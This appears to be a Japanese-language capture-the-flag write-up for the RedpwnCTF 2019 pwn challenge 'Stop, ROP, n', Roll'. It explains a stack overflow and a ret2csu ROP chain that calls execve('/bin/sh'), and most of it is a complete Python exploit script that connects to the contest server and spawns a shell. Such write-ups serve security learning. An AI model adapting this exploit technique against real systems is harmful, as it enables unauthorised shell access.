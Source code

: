 # [pwn 280pts] Stop, ROP, n', Roll - RedpwnCTF 2019
64ビットでNX以外無効です。
```
$ checksec -f srnr
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   74 Symbols     No       0               4       srnr
```
Stack Overflowがありますが、libcは配布されていません。
main関数終了時にrdxが大きい値なので、まずread関数を呼び出して`/bin/sh`と、syscallを指すポインタを書き込みます。
次にret2csuを使って`execve("/bin/sh", NULL, NULL)`を実行するシステムコールの引数を用意し、先程書いたポインタを使ってsyscallを呼び出します。

```python
from ptrlib import *
import time

elf = ELF("./srnr")
#sock = Process("./srnr")
sock = Socket("chall2.2019.redpwn.net", 4008)

plt_read = 0x4005d0
addr_csu_pop  = 0x40081a
addr_csu_init = 0x400800
addr_syscall = 0x400703
rop_pop_rdi = 0x00400823
rop_pop_rsi_r15 = 0x00400821
var = elf.section(".bss") + 0x100

sock.sendlineafter("bytes: ", "0")

payload = b"A" * 17
payload += p64(rop_pop_rdi)
payload += p64(0)
payload += p64(rop_pop_rsi_r15)
payload += p64(var)
payload += p64(0xdeadbeef)
payload += p64(plt_read)

payload += p64(addr_csu_pop)
payload += p64(0)       # rbx: 0
payload += p64(1)       # rbp: 1
payload += p64(var)     # r12-->func
payload += p64(var + 8) # r13-->edi
payload += p64(0)       # r14-->rsi
payload += p64(0)       # r15-->rdx
payload += p64(addr_csu_init)
sock.send(payload)
time.sleep(1)
payload = p64(addr_syscall) + b"/bin/sh\x00"
payload += b"A" * (59 - len(payload)) # execve
sock.send(payload)

sock.interactive()
```

# 感想
たぶんこれが一番簡単だと思います。
